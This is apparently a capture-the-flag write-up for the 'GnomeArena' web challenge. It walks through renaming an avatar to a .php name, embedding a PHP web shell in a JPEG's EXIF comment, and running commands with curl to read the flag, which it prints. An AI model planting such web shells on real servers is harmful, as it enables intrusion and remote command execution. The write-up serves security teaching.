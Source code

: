 # GnomeArena: Rock Paper Scissors
Web

## Challenge 

	This new website is all the rage for every gnome in Lapland! How many games of Rock Paper Scissors can you win?

	Server: http://199.247.6.180:12002

	Author: Milkdrop

## Solution

When in the setting pane, we see that we can change the username. http://199.247.6.180:12002/settings.php

If we change to a empty name, this error pops up

	Warning: rename(avatars/Helloworld,avatars/): Not a directory in /var/www/html/settings.php on line 35

Note that the image is taken from this file
	
	http://199.247.6.180:12002/avatars/<username>

Since they allow dots in the username, let's try a PHP format `derp.php`... And it works

	Current Name: derp.php

### File upload vulnerability

We can only upload JPG files. However, the file can be parsed as a PHP since we can change the username to end with .php

Now, this is a typical file upload vulnerability. So let's try to upload a JPG with a hidden PHP code.

I shall follow the [instructions on this page](https://phocean.net/2013/09/29/file-upload-vulnerabilities-appending-php-code-to-an-image.html
). This creates a page where we can do a `GET` request with the `cmd` parameter.

	# delete extra headers
	$ jhead -purejpg test.jpg 

	# Edit EXIF JPEG comment
	$ jhead -ce test.jpg 
	
	<style>body{font-size: 0;}h1{font-size: 12px}</style><h1><?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="./clean_image.jpg" border=0>';}__halt_compiler();?></h1>

And now we can do system commands using this

	$ curl http://199.247.6.180:12002/avatars/derp.php?cmd='ls -la'
	????JFIFdd???<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>total 57800
	drwxrwxrwx    1 nginx    nginx         4096 Dec 17 04:31 .
	dr-xr-xr-x    1 nginx    nginx         4096 Dec 13 19:00 ..
	-rw-r--r--    1 nginx    nginx       467938 Dec 17 03:45 0
	-rw-r--r--    1 nginx    nginx        11398 Dec 17 04:04 1
	-rw-r--r--    1 nginx    nginx        11398 Dec 17 04:20 12
	-rw-r--r--    1 nginx    nginx         5082 Dec 17 00:13 12.php
	-rw-r--r--    1 nginx    nginx      6932349 Dec 16 22:49 1547
	-rw-r--r--    1 nginx    nginx          230 Dec 17 04:30 789789
	-rw-r--r--    1 nginx    nginx     28635986 Dec 17 00:59 ADMIN
	-rw-r--r--    1 nginx    nginx        58515 Dec 17 00:04 Alamos
	<...>

After which, we can traverse up
	
	$ curl http://199.247.6.180:12002/avatars/derp.php?cmd='ls ../'
	????JFIFdd???<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>500.html
	avatars
	engine.php
	flag.txt
	header.html
	img
	index.php
	logo_bg.jpg
	settings.php

Found the flag

	$ curl http://199.247.6.180:12002/avatars/derp.php?cmd='cat ../flag.txt'
	????JFIFdd???<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
	X-MAS{Ev3ry0ne_m0ve_aw4y_th3_h4ck3r_gn0m3_1s_1n_t0wn}


## Flag

	X-MAS{Ev3ry0ne_m0ve_aw4y_th3_h4ck3r_gn0m3_1s_1n_t0wn}
